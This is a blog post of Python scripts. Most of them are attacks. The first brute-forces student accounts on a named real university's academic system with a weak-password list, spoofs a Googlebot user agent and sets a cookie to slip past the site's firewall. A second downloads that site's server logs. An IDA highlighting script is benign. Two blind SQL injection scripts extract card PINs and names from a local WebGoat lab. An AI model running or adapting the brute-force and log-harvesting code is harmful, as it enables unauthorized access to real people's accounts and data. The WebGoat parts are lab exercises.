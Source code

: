 ```yaml
---

layout: post

title: 'python脚本备份'

date: '2017-06-18'

header-img: "img/home-bg.jpg"

tags:
     - python  
author: 'De4dCr0w'

---
```


<!-- more -->

### 正方教务系统弱口令 ###

	#coding:utf-8
	import requests
	
	url = 'http://zfjw.tjykdxlcyxy.cn/(2izend4512fei5nhksssaw45)/default4.aspx'#天津医科大学临床医学院  正方教务处
	
	#username = 1604020408
	weak = ['000000',
	'111111',
	'222222',
	'333333',
	'444444',
	'555555',
	'666666',
	'777777',
	'888888',
	'999999',
	'123456',
	'654321',
	'qweqwe',
	'123123'
	]
	
	for i in range(1604020000,1604029999):
	    for j in weak:
	        username = str(i)
	        print username
	        passwd = str(j)
	        data = {
	        "__VIEWSTATE":"dDwxMTE4MjQwNDc1Ozs+/qN9q0GVi7WN0iH/jz8h6QhLSvg=",
	        "TextBox1":username,
	        "TextBox2":passwd,
	        "RadioButtonList1":"学生",
	        "Button1":" 登 录 "
	        }
	        #cookies = {}
	        headers = {"Host":"zfjw.tjykdxlcyxy.cn",
	        "User-Agent":"Googlebot/2.1 (+http://www.google.com/bot.html)",
	        "Referer":"http://zfjw.tjykdxlcyxy.cn/(2izend4512fei5nhksssaw45)/default4.aspx",
	        "Cookie":"safedog-flow-item=",
	        }
	        req = requests.post(url=url,data=data,headers=headers)
	        #print req.content
	        if req.content.find('alert') == -1:
	            f = open(username+'_'+passwd+'.txt','w')
	            print >> f,req.content
	            #print req.content
	            f.close()

### 正方教务处日志下载 ###

	import requests
	import datetime
	
	begin = datetime.date(2017,5,1)
	end = datetime.date(2017,5,1)
	
	for i in range((end - begin).days+1):
	    day = begin+datetime.timedelta(days=i)
	    url = 'http://zfjw.tjykdxlcyxy.cn/log/%s-log.txt'%str(day)
	    #print url 
	
	    req = requests.get(url)
	
	#print req.content
	
	    if req.content.find('passwd') == -1:
	        print day
	        f = open(str(day)+".txt","w")
	        print >> f,req.content
	        f.close()

### ida高亮call指令 ###

	from idautils import *
	from idc import *
	
	heads = Heads(SegStart(ScreenEA()),SegEnd(ScreenEA()))
	
	functionCalls = []
	
	for i in heads:
	    if GetMnem(i) == "call":
	        functionCalls.append(i)
	print "Number of calls found: %d"%(len(functionCalls))
	
	for i in functionCalls:
	    SetColor(i,CIC_ITEM,0xc7fdff)

### WebGoat数字盲注 ###

	import re
	import requests
	import time
	
	cookies = dict(JSESSIONID='A9DDDE87B8D317640143AD42C8AB0CFB')
	
	url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'
	
	#payload = "101 and 1=2"
	low = 0
	high = 10000
	mid = 5000
	payload = "101 and ((select pin from pins where cc_number='1111222233334444')="+str(mid)+")"
	print payload
	data = {'account_number':payload,'SUBMIT':'Go!'}
	req = requests.post(url=url,data=data,cookies=cookies)
	print req.content
	
	while low <= high:#采用二分法查找
		mid = (low+high)/2
		payload = "101 and ((select pin from pins where cc_number='1111222233334444')="+str(mid)+")"
		print payload
	        data = {'account_number':payload,'SUBMIT':'Go!'}
	        req = requests.post(url=url,data=data,cookies=cookies)
	        if req.content.find('Account number is valid.') != -1:
			print 'succeed:'+str(mid)
			break
		time.sleep(1)
		payload = "101 and ((select pin from pins where cc_number='1111222233334444')>"+str(mid)+")"
		data = {'account_number':payload,'SUBMIT':'Go!'}
		req = requests.post(url=url,data=data,cookies=cookies)
		print req.content
		if req.content.find('Invalid account number.') != -1:
			high = mid-1
		elif req.content.find('Account number is valid.') != -1:
			low = mid+1
	print 'it\'s over,not found!'

### WebGoat字符串盲注 ###

	import re
	import requests
	import time
	
	cookies = dict(JSESSIONID='A9DDDE87B8D317640143AD42C8AB0CFB')
	
	url = 'http://localhost:8080/WebGoat/attack?Screen=586116895&menu=1100'
	
	#payload = "101 and 1=2"
	charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
	k = 1
	for j in range(0,5):
		for i in charset:
			payload = "101 and (substring((select name from pins where cc_number='4321432143214321'),%d,1)='%c')"% (k,i)
			#print payload
	        	data = {'account_number':payload,'SUBMIT':'Go!'}
	        	req = requests.post(url=url,data=data,cookies=cookies)
			#print req.content
	        	if req.content.find('Invalid account number') != -1:
				continue
			elif req.content.find('Account number is valid.') != -1:
				print i,
				k = k+1
		
	print ''
	print 'it\'s over,not found!'

